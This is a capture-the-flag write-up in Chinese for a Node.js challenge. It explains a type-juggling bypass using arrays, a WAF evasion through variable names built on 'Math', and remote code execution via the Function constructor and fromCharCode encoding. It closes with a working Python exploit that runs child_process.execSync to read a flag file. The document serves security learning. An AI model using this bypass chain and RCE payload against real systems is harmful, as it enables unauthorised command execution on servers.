

tags:: CTF/JS/WAF绕过, CTF/JS/弱类型, CTF/RCE

- # 基本思路
	- 绕过弱类型验证和waf实现rce
- # 绕过弱类型验证
	- `first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])`
	- 只要`first=["a","a,a"],second=["a,a","a"]`，这两个数组转化成字符串的时候就都会化成`a,a,a`，绕过验证
- # 绕过waf
	- 
	- 提供了等于号，可以实现变量赋值
	- `Math`和数字可以通过waf，变量名可以考虑使用这二者
	- `Math`后面可以加`.`，所有以`Math`结尾的变量都可以利用`.`获取属性
	- 综上，变量名可以为`Math1Math`等，可以通过`.`获取任意变量
- # waf限制下的rce
	- `Math.toString.constructor`的作用类似于eval, 传入一个字符串，其会使用这个字符串生成一个匿名函数
	- `Math.toString().constructor.fromCharCode`，将ascii码转换成字符
	- 我们只需要依次执行以下语句即可利用这两个函数实现任意JS代码RCE
		- ```python
		  # Math.toString().constructor.fromCharCode
		  post_str("Math1Math=Math.toString()")
		  post_str("Math2Math=Math1Math.constructor")
		  post_str("Math3Math=Math2Math.fromCharCode")
		  # Math.toString.constructor
		  post_str("Math4Math=Math.toString")
		  post_str("Math5Math=Math4Math.constructor")
		  ```
	- 执行结果在cookie中
- # Payload
	- ```python
	  url = "http://d0f529af-0b53-4e58-9362-4cc67c5159cd.node4.buuoj.cn:81/"
	  session = requests.session()
	  
	  def post_str(s):
	      r = session.post(url, json = {
	          "e":s,
	          "first":["a","a,a"],
	          "second":["a,a","a"]}
	      )
	      return r
	  
	  post_str("Math1Math=Math.toString()")
	  post_str("Math2Math=Math1Math.constructor")
	  post_str("Math3Math=Math2Math.fromCharCode")
	  
	  post_str("Math4Math=Math.toString")
	  post_str("Math5Math=Math4Math.constructor")
	  
	  def encode_payload(s):
	      return "Math5Math({})()".format(
	          "+".join(f"Math3Math({ord(c)})" for c in s)
	      )
	  
	  payload_raw = "return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString()"
	  post_str(encode_payload(payload_raw))
	  cookie_session = session.cookies["PHPSESSION"]
	  cookie_session_json = json.loads(enc_dec.base64_decode(cookie_session))
	  print(cookie_session_json["results"][0])
	  ```